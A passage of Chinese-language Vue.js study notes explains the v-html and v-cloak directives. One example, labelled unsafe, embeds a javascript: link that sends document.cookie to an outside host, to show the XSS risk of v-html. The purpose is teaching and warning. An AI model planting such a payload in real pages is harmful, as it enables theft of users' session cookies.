 参看**知识补充**部分的cookie知识补充



###### 1、样例（正常）

```vue
<templete>
    <div id="root">
       <div v-html="str"></div>
    </div>
</templete>
<script>
    new Vue({
			el:'#root',
			data:{
				str:'<h3>你好啊！</h3>'
			}
		})
</script>
```

这样使用可以将h3标签中的内容正常解析到div标签中，从而显示出内容



###### 2、样例（存在安全问题）

```vue
<templete>
    <div id="root">
       <div v-html="str2"></div>
    </div>
</templete>
<script>
    new Vue({
			el:'#root',
			data:{
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+ document.cookie>危险链接</a>'
			}
		})
</script>
```

因为这里使用了`document.cookie`，所以如果服务器给我们的浏览器返回的`cookie`的值没有经过`http`特殊处理的话，就会被这里的a标签给获取并返回到，这就相当于我们在浏览器上登陆的网站的账号泄露了一样==【具体安全问题参看Cookie知识补充部分】==



##### 4、v-cloak

###### 1、总结

```bash
# Vue初始化完成的时候，这个特殊属性(v-cloak)就会被删除掉
1、本质上是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性

2、使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题
```

